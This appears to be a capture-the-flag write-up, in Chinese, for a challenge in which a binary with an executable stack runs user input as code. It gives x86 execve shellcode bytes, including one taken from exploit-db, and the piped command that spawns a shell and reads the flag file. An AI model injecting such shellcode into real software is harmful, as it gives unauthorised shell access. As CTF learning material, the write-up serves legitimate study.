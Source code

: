 # ExecuteMe
 * [Makefile](Makefile)中，`-zexestack`把原本預設的`stack as non-executable``拿掉了，能在stack上執行任何code
 * [程式碼](execute.c) function_ptr
```c
typedef void (*function_ptr)();
...
((function_ptr)buf)();
```
 * function pointer？
  * 每個function包含code和指到code的function pointer
  * code必須是**可執行的assembly code**
 * 而buf在傳給function_ptr前，會先經過：`read(0, buf, 128);`
 * 因此，我們要創造的code，**不能包含\x0**，否則copy function會當作結束字元

## Solve
寫個開啟shell的code，使用system call `execve`，需要參數和stack
 * registers
  * eax: 0xb, ebx: addr of `/bin/sh`, ecx: esp, edx: 0x0
 * `execve("/bin/sh", NULL, NULL)`，需要 stack
  * push 0x0
  * push 0x0
  * push addr of `/bin/sh`
  * call `execve`
 * 寫成[x86 assembly code](writing_shellcode/shellcode.asm), 使用assembly `nasm`, linker `ld`
```
$ nasm -f elf shellcode.asm && ld -m elf_i386 -s -o shellcode shellcode.o && ./shellcode
$
```
 * 轉成hex: `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`
 * 放入程式執行
```
$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') | ./execute
Segmentation fault
```
 * 不懂為何 segmentation fault, 只好上網找別人做[x86 shellcode](https://www.exploit-db.com/exploits/37069/)的，放入執行
```bash
pico62895@shell:/home/execute$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"') | ./execute
pico62895@shell:/home/execute$
```
 成功執行，但在我們能輸入其他指令前就結束了
 * 使用cat讓他開著，並且會把結果印到terminal上：
```bash
pico62895@shell:/home/execute$ (python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80"'; cat) | ./execute
ls
Makefile   core       execute	 execute.c  flag.txt
cat flag.txt
shellcode_is_kinda_cool
```
